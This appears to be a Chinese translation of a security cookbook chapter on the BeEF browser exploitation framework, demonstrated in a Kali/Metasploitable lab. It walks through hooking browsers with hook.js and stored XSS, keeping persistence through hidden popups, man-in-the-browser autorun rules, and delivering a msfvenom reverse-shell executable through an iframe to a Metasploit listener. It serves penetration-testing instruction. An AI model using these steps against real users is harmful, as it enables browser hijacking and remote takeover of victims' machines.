# 第十章：使用 BeEF 攻击浏览器

浏览器利用框架（也称为 BeEF）是一个用于攻击网页浏览器的结构化代码库。BeEF 可以攻击任何浏览器，但操作系统、浏览器类型、设置、插件和版本都会影响它能够执行的攻击。BeEF 作为一个服务器运行；当我们挂钩一个浏览器时，它会连接回 BeEF 服务器。从那里，我们可以对其执行命令。本章将涵盖以下内容：

+   使用 BeEF 挂钩浏览器

+   使用 BeEF 收集信息

+   与 BeEF 建立持久连接

+   将 BeEF 与 Metasploit 集成

+   使用 BeEF 自动规则引擎

# 使用 BeEF 挂钩浏览器

为了使用 BeEF，我们需要启动它的服务并能够访问它的控制台。此外，为了利用受害者的浏览器，我们需要找到一种方法来挂钩他们的浏览器。攻击受害者浏览器的方法有很多种；在本章中，我们将介绍两种方法：

+   第一个示例展示了我们如何在可以直接编辑的网站上部署脚本。

+   在第二个示例中，我们将利用一个易受 XSS 攻击的网站。通过这种方式，我们可以在没有管理员访问权限的网站上部署我们的脚本。

# 准备工作

BeEF 已预装在 Kali Linux 中。在提供的示例中，使用 Metasploitable2 实例演示了通过 XSS 挂钩浏览器。有关如何在本地实验环境中设置系统的更多信息，请参考第一章中的*安装 Metasploitable2*和*安装 Windows Server*食谱，*入门*部分。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关如何编写脚本的更多信息，请参阅第一章中的*使用文本编辑器（Vim 和 GNU nano）*食谱，*入门*部分。

# 如何操作…

现在让我们开始并学习如何使用 BeEF 挂钩浏览器：

1.  转到应用程序 | 利用工具 | beEF XSS 框架：



1.  一个终端窗口将打开并启动 BeEF 服务器。当完成后，它将打开一个浏览器并带你进入 BeEF 控制台：



1.  默认的用户名和密码是`beef/beef`。验证通过后，我们将看到 BeEF 控制台：



1.  接下来，我们需要挂钩浏览器。有很多方法可以实现。我们将在这里演示两种方法：

    +   **方法 1**：首先，让我们看看如何在我们能够控制的页面中简单地插入一些 JavaScript 代码：

        1.  请注意，在我们启动 BeEF 时打开的终端窗口中，显示了一个示例挂钩的行：



1.  我们看到，通过调用`hook.js`文件来挂钩浏览器，因此让我们创建一个页面来实现这个功能。我们进入网站根目录并创建一个文件；我们将它命名为`beef.html`：



1.  现在，我们将创建一个简单的网页，并在 `<head>` 和 `</head>` 标签之间嵌入我们的脚本：



1.  现在，当有人访问我们的网页时，它会加载 `hook.js` 脚本并与我们的 BeEF 服务器建立连接。然而，这不会有任何视觉提示。如果你访问我们的网页，你会看到类似这样的内容：



1.  现在让我们查看 BeEF 控制台，我们将看到已经 hook 了浏览器：



+   **方法 2：**我们可以采取一些更复杂的方式，在我们不拥有的网站上使用 XSS。我们将使用 Mutillidae。具体来说，我们将利用 Mutillidae 中容易受到 XSS 攻击的“添加到你的博客”功能。

    1.  在这一页，我们将简单地使用之前在网页上使用过的相同脚本。所以，我们进入 `add-t0-your-blog.php` 页面并输入我们的脚本：



1.  现在让我们导航到我们的博客文章：



1.  `hook.js` 脚本已经在后台加载，并且是持久的。现在，任何访问此博客的人都会被 hook。如果我们查看 BeEF 控制台，我们现在就能看到我们已经 hook 的浏览器：



# 它是如何工作的…

BeEF 在 Kali Linux 上作为服务器运行。一旦我们启动了 BeEF 并部署了它的 hook，只需等待浏览器访问并加载我们的 `hook.js` 文件。这样，受害者的浏览器就会连接到我们的 BeEF 服务器。

# 使用 BeEF 收集信息

一旦我们成功 hook 了浏览器，就可以使用 BeEF 来利用它。本教程将介绍如何使用一些基本的 BeEF 命令来收集信息并利用受害者的浏览器。

# 准备工作

BeEF 已经预安装在 Kali Linux 上。在所提供的示例中，使用了 Metasploitable2 实例来演示通过 XSS hook 浏览器。有关如何在本地实验环境中设置系统的更多信息，请参考 第一章 中的 *安装 Metasploitable2* 和 *安装 Windows Server* 配方，*入门* 部分。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关如何编写脚本的更多信息，请参考 第一章 中的 *使用文本编辑器（Vim 和 GNU nano）* 配方，*入门* 部分。

# 如何操作…

现在让我们开始学习如何使用 BeEF 收集信息：

1.  回到之前的教程，我们来看看 BeEF 控制台。我们再次看到已经有一个被 hook 的浏览器。BeEF 会立即提供一些关于已 hook 浏览器的信息。在以下示例中，它通过图标告诉我们，浏览器是 Internet Explorer，操作系统是 Microsoft Windows，硬件是虚拟机。此外，它还给出了被 hook 机器浏览器的 IP 地址：



1.  我们可以通过鼠标选择已挂钩的浏览器来获取更多信息。当我们这样做时，会弹出一个新标签页，显示有关已挂钩浏览器的详细信息。我们可以获得浏览器类型、版本、平台的更多细节，甚至是浏览器的分辨率。我们还可以查看浏览器的插件和组件，以及用于挂钩浏览器的页面的信息。

最后，我们获得了一些关于浏览器主机计算机的更多细节：



1.  现在我们可以对受害者的浏览器运行命令了，但在我们操作之前，先查看一下交通灯图标，并了解它们的含义：



1.  你会注意到，当我们展开“命令”标签下的模块树时，每个命令都会有一个对应的交通灯图标。这让我们对可用的命令有了一定了解，同时也能判断执行命令时，用户是否会注意到。以这个示例为例，让我们展开模块树中的 `Browser` 文件夹：



1.  我们可以看到很多选项，但让我们试一下“获取访问过的 URL”。如果我们点击该命令，我们会看到一个简短的描述和一个文本框，在其中输入我们想查看是否已访问过的 URL。我们先使用默认的 [`beefproject.com/`](http://beefproject.com/)。点击“执行”后，我们看到命令返回 false：



1.  为了测试这个命令是否有效，我们将修改 URL 的值，使用浏览器已访问过的页面，并查看它返回什么。在这个示例中，我们使用 `http://172.16.69.135/beef.html` URL。当我们执行此命令时，结果返回 true：



1.  让我们尝试另一个命令。在这个示例中，我们将浏览器重定向到我们选择的 URL。你会看到这个命令旁边的交通灯是橙色的，因为用户显然会注意到他们在执行命令后已被重定向：



1.  对于我们的示例，我将只是将它们重定向到我们托管 `beef.html` 页面的网站根目录。所以我们会将重定向 URL 修改为 `http://172.16.69.135/`，然后点击执行**按钮**。如果我们点击刚刚执行的命令，结果会显示重定向已发生：



1.  返回到我们挂钩的 Windows XP 浏览器上，我们可以看到，确实，浏览器已被重定向到 `http://172.16.69.135/`：



# 它是如何工作的……

BeEF 在 Kali Linux 上作为服务器运行。一旦我们启动 BeEF 并部署了其挂钩，它就是等待浏览器访问并加载我们的 `hook.js` 文件。这样一来，受害的浏览器将连接到我们的 BeEF 服务器。连接后，BeEF 提供了多种功能，允许我们收集关于被攻击目标的信息。

# 创建与 BeEF 的持久连接

当一个浏览器被 BeEF 挂钩时，默认情况下它只会在停留在感染页面时保持连接。如果用户离开该页面，它将不再与我们的 BeEF 控制台保持连接。在本节中，我们将展示即使用户离开感染页面，如何仍然能够通过 BeEF 保持持久连接。

# 准备工作

BeEF 已经预装在 Kali Linux 上。在提供的示例中，使用了一个 Metasploitable2 实例来演示通过 XSS 挂钩浏览器的过程。有关如何在本地实验环境中设置系统的更多信息，请参见第一章中的 *安装 Metasploitable2* 和 *安装 Windows Server* 配方，*入门*。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关如何编写脚本的更多信息，请参见第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 配方，*入门*。

# 如何实现…

现在让我们学习如何与 BeEF 创建持久连接：

1.  让我们进入 BeEF 控制台，确认我们是否仍然保持着之前的挂钩浏览器。如果没有，我们可以通过访问页面`http://172.16.69.135/beef.html`再次挂钩浏览器：



1.  挂钩浏览器很好；然而，一旦用户离开感染它的页面，我们将无法继续保持对该浏览器的控制。它将从“在线浏览器”文件夹中消失，并出现在我们的“离线浏览器”文件夹中，如下图所示：



1.  显然，从我们的角度来看，这并不是理想的。一旦我们成功感染了一个浏览器，理想的情况是即使用户离开了我们感染页面，连接依然能够保持。为了实现这一点，我们导航到“命令”选项卡，并展开“持久性”文件夹。

1.  在这里，我们可以看到一些可用的选项。在这个示例中，我们将使用“创建弹出窗口”命令。此命令将创建一个新的浏览器窗口，并将其隐藏。只要这个窗口保持打开状态，我们就可以维持持久连接：



1.  一旦我们点击“执行”按钮，就可以去查看我们感染的浏览器。在这里，你可以看到在 Windows XP 的任务栏底部，我们现在有两个 Internet Explorer 实例在运行：



1.  现在，如果用户离开了我们的页面，我们仍然可以保持弹出窗口连接，并维持我们的持久性。查看 BeEF 控制台，我们可以看到有一个在线浏览器和一个离线浏览器，它们的 IP 地址是相同的。离线浏览器是已经离开了我们感染页面的浏览器，而在线浏览器则是我们通过“创建弹出窗口”命令实例化的浏览器：



# 它是如何工作的…

为了保持 BeEF 的持久性，浏览器需要继续使用 `hook.js` 资源。当用户离开我们感染的页面时，它就不再使用 `hook.js`，因此我们失去了连接。为了保持持久性，我们可以使用 IFrame 或另一个浏览器窗口来加载我们的 `hook.js` 文件，从而保持连接。

# 集成 BeEF 和 Metasploit

我们现在知道，BeEF 是一个非常适合利用浏览器的框架，而 Metasploit 是一个非常适合利用主机的框架。在本配方中，我们将看到如何将 BeEF 和 Metasploit 一起使用。在用 BeEF 劫持浏览器之后，我们将受害者的浏览器重定向到一个可执行文件，该文件创建一个反向 shell。

# 准备工作

BeEF 已经预装在 Kali Linux 中。在提供的示例中，使用了一个 Metasploitable2 实例来演示通过 XSS 劫持浏览器。有关如何在本地实验环境中设置系统的更多信息，请参考第一章中的*安装 Metasploitable2*和*安装 Windows Server*配方，*入门*部分。此外，本节还需要通过文本编辑器（如 Vim 或 GNU nano）向文件系统写入脚本。有关如何编写脚本的更多信息，请参考第一章中的*使用文本编辑器（Vim 和 GNU nano）*配方，*入门*部分。

# 如何操作…

现在让我们学习如何集成 BeEF 和 Metasploit：

1.  我们将首先创建一个反向 shell 并将其打包成可执行文件。我们知道我们的劫持浏览器是 Microsoft Windows，因此我们将构建一个与受害者平台匹配的可执行文件。我们使用有效载荷 `windows/shell/reverse_tcp`。然后我们将 `LHOST` 设置为我们的 Kali 主机的 IP 地址，并将 `LPORT` 设置为 `4444`。我们进行一些编码，并将输出文件放在我们的 Web 根目录下，这样我们就可以在准备好时将受害者引导到该文件：



1.  现在我们已经创建了我们的漏洞利用，我们需要设置我们的监听器。我们通过打开 MSF 控制台并输入 `use exploit/multi/handler` 来完成此操作。然后，我们将有效载荷设置为与 `msfvenom` 中使用的相同：`set payload windows/shell/reverse_tcp`。接下来，我们需要将 `LHOST` 设置为 `172.16.69.133`，并将 `LPORT` 设置为 `4444`。一旦所有选项设置完成，输入 `exploit`，监听器就会启动：



1.  现在我们回到 BeEF 控制台，并决定如何将用户引导到我们的 `shell.exe` 文件。我们可以执行重定向或打开新窗口，但在本例中，我们将使用 IFrame。当我们点击该命令时，会弹出一个文本框让我们输入 URL。在这里，我们输入刚刚创建的 `shell.exe` 文件的路径。在我们的示例中，它是 `http://172.16.69.133`：



1.  当我们点击 **执行** 时，受害者的浏览器将收到一个提示，必须决定是否打开或保存文件。当然，用户不必打开我们的文件，如果他们不打开，反向 shell 就不会启动。这仅作为一个示例，但我们可以做很多事情来鼓励用户，让它看起来像他们想要安装的东西。进行攻击时，创造力是关键。现在，假设我们的受害者确实打开了我们的文件：



打开后，会创建一个反向 shell，您可以看到我们获得了 Microsoft Windows 命令提示符。从这里，我们可以做任何被破坏用户在终端中可以做的操作。



# 它是如何工作的…

BeEF 提供了一个框架，允许我们利用受害者的浏览器。在这个配方中，我们让被利用的浏览器下载一个反向 shell 可执行文件，并将其链接回我们的 Metasploit 主机。

# 使用 BeEF 自动规则引擎

我们现在已经看到了 BeEF 的一些强大功能。如果我们能自动化其中的一些功能，那该多好？借助 BeEF 自动规则引擎，我们可以做到这一点。例如，能够在浏览器一旦被挂载时，就自动与受害者建立持久连接，将会非常棒。本节将探讨这个问题以及其他一些想法。

# 准备工作

BeEF 已经预装在 Kali Linux 上。在提供的示例中，使用 Metasploitable2 实例演示通过 XSS 挂载浏览器。有关如何在本地实验环境中设置系统的更多信息，请参阅 第一章中的 *安装 Metasploitable2* 和 *安装 Windows Server* 配方，*入门*。此外，本节需要使用文本编辑器（如 Vim 或 GNU nano）编写脚本到文件系统中。有关如何编写脚本的更多信息，请参阅 第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 配方，*入门*。

# 如何操作…

为了自动化 BeEF，我们将使用 BeEF 的 **自动运行规则引擎**（**ARE**）。通过 ARE，我们可以在浏览器被挂载时自动运行命令，前提是它符合我们指定的要求。例如，我们只希望在被挂载的浏览器是 Google Chrome 时，才运行 Google Chrome 的相关命令：

1.  BeEF 已经预包装了许多 ARE 规则。在 Kali 中，我们可以通过导航到 `/usr/share/beef-xss/arerules/` 目录并查看其内容来查看这些规则，如下图所示：



1.  尽管 BeEF 已经预装了 ARE 命令，但这些命令正在不断更新和增加。要查看最新的 ARE 命令全面列表，我们可以访问 BeEF 项目的 ARE 规则页面：[`github.com/beefproject/beef/tree/master/arerules`](https://github.com/beefproject/beef/tree/master/arerules)。

1.  为了获取最新的规则，我们将下载 BeEF 主存档。我们切换到 `/tmp/` 目录并从 [`github.com/beefproject/beef/archive/master.zip`](https://github.com/beefproject/beef/archive/master.zip) 下载最新的 BeEF 存档。现在，我们可以使用 `unzip` 命令解压内容：



1.  请注意，我们已下载整个 BeEF 项目，尽管我们只需要更新规则。因此，让我们切换到 `autorule` 目录，并运行命令查找 autorule 文件，并将其移动到 `/usr/share/beef-xss/arerules/` 目录。

1.  然后，我们可以切换回 `/usr/share/beef-xss/arerules/` 目录，确认文件是否已移动。我们还应该返回 `/tmp/` 目录并删除那里的文件，因为它们不再需要。可以通过执行 `rm -r /tmp/beef-master` 和 `rm master.zip` 命令来完成：



1.  现在我们已经有了最新的 ARE 规则，接下来我们具体看看 `man_in_the_browser.json` 文件。浏览器中间人攻击通过在用户点击链接时拦截请求来工作。如果链接在同一域上，它只会发出一个 AJAX 请求来加载新页面。对于用户来说，这看起来和他们正常的体验没有任何区别；然而，他们仍然被钩住。如果链接指向其他域，则会启动一个新标签页加载请求的页面。这可能会或不会让用户察觉；不过，网站在新标签页中打开页面并不罕见。这是因为同源策略不允许我们像访问同一域上的其他页面那样发出请求。

1.  为了让我们自动运行 ARE 规则，我们必须将它们从 `/usr/share/beef-xss/arerules/` 目录移动到 `/usr/share/beef-xss/arerules/enabled/` 目录。

1.  移动它们之后，我们需要重启 BeEF，以便它能加载新的配置：



1.  当我们最初创建网页以钩住受害者时，并没有在页面中添加任何链接。让我们开始使用 `vi` 编辑器编辑我们的 `beef.html` 文件：



1.  现在，我们可以编辑页面并添加链接。在这个例子中，我们将向页面添加以下 HTML：

```
        <p>You should check out 
          <a href="http://www.packtpub.com">PacktPub</a>
        </p>

```



1.  现在，我们从我们的 Windows XP 机器导航到 `172.16.69.133/beef.html`。从我们的 BeEF 面板中，我们可以看到浏览器按预期被钩住：



1.  当我们离开我们的页面并导航到 `www.packtpub.com` 时，我们的 `man_in_the_browser.json` 文件开始工作，保持浏览器连接。如果我们查看日志，可以看到它已被执行。此外，尽管用户离开了页面，我们仍然可以看到浏览器保持在线：



# 它是如何工作的…

